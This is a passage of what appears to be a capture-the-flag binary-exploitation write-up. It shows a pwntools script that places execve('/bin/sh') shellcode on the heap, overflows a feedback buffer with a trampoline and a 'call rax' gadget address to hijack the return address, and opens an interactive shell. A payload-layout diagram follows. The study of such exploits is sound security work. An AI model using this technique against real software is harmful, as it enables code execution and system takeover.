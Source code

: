 ```python
    xor edx, edx
    mov eax, 59
    syscall

    binsh:
    .string "/bin/sh"
''')

# === Gadget to trigger control flow ===
CALL_RAX = p64(0x401014)

# === Send shellcode into heap via message system ===
create_recv(b'a' * 8)
send_message(0, shellcode)

# === Trigger overflow with jmp shellcode + return address ===
p.sendline(b'3')
p.sendline(jmp_shellcode.ljust(20, b'a') + CALL_RAX)

# === Shell ===
p.recvrepeat(1)
p.interactive()

```

---

## Final Payload Layout

```
[ trampoline shellcode ]   <- feedback buffer (RAX points here)
[ padding (16 bytes)    ]
[ address of call rax   ]   <- Overwrites return address
```

* We pad the trampoline shellcode to 20 bytes so `fgets` doesn't crash.
* `call rax` jumps to `feedback`.
* Trampoline shellcode jumps to `msg`, where `/bin/sh` lives.

---

## Output:
